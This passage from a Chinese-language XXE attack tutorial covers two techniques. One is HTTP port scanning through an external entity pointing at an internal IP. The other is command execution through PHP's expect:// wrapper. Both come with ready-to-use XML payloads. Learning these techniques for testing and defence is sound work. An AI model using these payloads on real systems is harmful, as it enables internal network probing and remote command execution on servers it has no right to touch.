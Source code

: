## 5. HTTP端口扫描

payload：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
    <!ENTITY Quan SYSTEM "http://192.168.202.130:80">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```

设置爆破端口

![img](XXE.assets/modb_20211021_1c0c4418-3260-11ec-b086-fa163eb4f6be.png)

根据长度或者响应时间来判断端口存活

![img](XXE.assets/modb_20211021_1c58c20c-3260-11ec-b086-fa163eb4f6be.png)

## 6. 执行系统命令

这种情况很少发生，PHP加载了expect模块，攻击者能够通过XXE执行代码。

```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "expect://执行的命令">
]>

<hhh>&f;<hhh>
```
